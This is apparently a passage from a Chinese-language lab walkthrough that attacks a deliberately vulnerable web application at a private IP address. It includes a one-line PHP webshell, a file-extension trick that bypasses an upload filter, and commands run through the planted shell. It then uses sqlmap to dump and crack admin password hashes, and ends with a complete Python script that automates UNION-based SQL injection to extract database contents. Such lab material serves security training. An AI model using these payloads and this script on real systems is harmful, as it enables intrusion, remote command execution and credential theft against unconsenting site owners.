

左边的按键可以添加图片，比如：


​	**6）上传 webshell**

​	同理，尝试上传 webshell。首先，构造一个简单的 webshell:

```php
<？php 
  system（$ _ GET ['cmd']）; 
？>
```



返回的信息：

```
No PHP!!

```

-  `php3`  这将绕过一个简单的过滤器 `.php`
- `.php.test` 这将绕过一个简单的过滤器 `.php` 

webshell.php 改名为 webshell.php3，上传成功。



​	**7）测试 webshell**

​	成功上传之后，找到文件路径：

```
http://192.168.55.3/admin/uploads/shell.php3
```

​	简单测试：

```
http://192.168.55.3/admin/uploads/shell.php3?cmd=ls -a
```

​	

​	前面两个是测试时上传的图片。查看源代码：

```
http://192.168.55.3/admin/uploads/shell.php3?cmd=php%20-i
```




#### Step 2 : sqlmap自动注入

[sqlmap]: https://github.com/sqlmapproject/sqlmap 
安装（Kali Linux 环境）：

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

查看帮助文档：

```
python sqlmap.py -hh
```

输入下面指令：

```
python sqlmap.py -u 'http://192.168.55.3/cat.php?id=1'
```

会显示出注入点 和 一些数据库的基本信息：



查找表名：

```
python sqlmap.py -u 'http://192.168.55.3/cat.php?id=1' --table
```



从以上表中选出表名 'users'，查找 'users' 字段名：

```
python sqlmap.py -u 'http://192.168.55.3/cat.php?id=1' --columns -T users
```



根据表名 和 字段名获取需要数据：

```
python sqlmap.py -u 'http://192.168.55.3/cat.php?id=1' --dump -T users -C 'id,login,password'
```

输入指令后，sqlmap 会出现下面两条提示信息：

```
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
```

第一条提示你是否要将输出hash值存为文件的形式，选择 y，会有这样的输出：

```
[19:58:58] [INFO] writing hashes to a temporary file '/tmp/sqlmaproUpwb3439/sqlmaphashes-wBdpRh.txt'
```

文件内容如下（用户名 + 密码的 hash 值的形式）：

```
admin:8efe310f9ab3efeae8d410a8e0166eb2
```

第二条提示信息：

```
do you want to crack them via a dictionary-based attack? [Y/n/q] 
```

选择 yes，sqlmap 会为你提供一个简单的字典匹配 hash 值。结果如下：


hash值 和 密码都显示在上面。


#### Step 3 : 代码实现注入

```python
import requests
import re
# 代码内容是针对题目经过手工分析刻意构造，不具备一般性

# 0x7177657E <=> qwe~,正则匹配需要
DATABASE_REQUEST = '1 Union selEct 1,cOnCat(0x7177657E,schema_name,0x7E717765),3,4 from INFORMATION_SCHEMA.SCHEMATA'

# 正则匹配提取数据
def extractData(url):
    r = requests.get(url)
    t = r.text
    res = re.findall(r"qwe~(.+?)~qwe", t)
    if len(res) > 0:
        return res

# 打印基本信息
def baseInfo(url):
    vurl = url + '1 union select 1,concat(0x7177657E,version(),0x7E717765),2,3'
    durl = url + '1 union select 1,concat(0x7177657E,database(),0x7E717765),2,3'
    uurl = url + '1 union select 1,concat(0x7177657E,user(),0x7E717765),2,3'
    version =  list(set(extractData(vurl)))
    database = list(set(extractData(durl)))
    user = list(set(extractData(uurl)))
    print('='* 45)
    print('version:',version[0],'\ndatabase:',database[0],'\nuser:',user[0])
    print('='*45)


# 打印所有数据库名称
def databaseName(url):
    url += DATABASE_REQUEST
    db_name = list(set(extractData(url)))
    print('database:')
    for i,j in enumerate(db_name):
        print("[+] %-30s\t" %j,end='')
        if not (i + 1)%3:
            print('')


# 打印所有表名
def tableName(url):
    url += "1 union select 1,concat(0x7177657E,table_name,0x7E717765),3,4 from information_schema.tables"
    tb_name = sorted(list(set(extractData(url))))
    print('\n\ntable:')
    for i,j in enumerate(tb_name):
        print("[+] %-30s\t" %j,end='')
        if not (i + 1)%3:
            print('')


# 打印特定表的字段名称
def fieldName(url,tb_name):
    field = []
    url += "1 UNION SELECT 1,concat(0x7177657E,table_name,':', column_name,0x7E717765),3,4 FROM information_schema.columns"
    fd_name = list(set(extractData(url)))
    for i in fd_name:
        prime,final = i.split(':')
        if prime == tb_name and final:
            field.append(final)
    for i,j in enumerate(field):
        print("[+] %-30s\t" %j,end='')
        if not (i + 1)%3:
            print('')

# 提取数据
def fetchData(url,tb_name,fd_name):
    clear = fd_name.split()
    fd_name = ",':',".join(clear)
    url += '1 UNION SELECT 1,concat(0x7177657E,{},0x7E717765),3,4 FROM {}'.format(fd_name,tb_name)
    datas = list(set(extractData(url)))
    for d in datas:
        d = d.split(':')
        if len(clear) == len(d):
            print('[+]',end = ' ')
            for i,j in zip(clear,d):
                print("%-35s" %(i + ':' + j),end = '\t')
            print('')


if __name__ == '__main__':
    url = r'http://192.168.55.3/cat.php?id='
    baseInfo(url)
    databaseName(url)
    tableName(url)
    tb_name = input("\n\nPlease select the target table:")
    fieldName(url,tb_name)
    fd_name = input('\nPlease select the target field:')
    fetchData(url,tb_name,fd_name)
```

结果大概是这样：


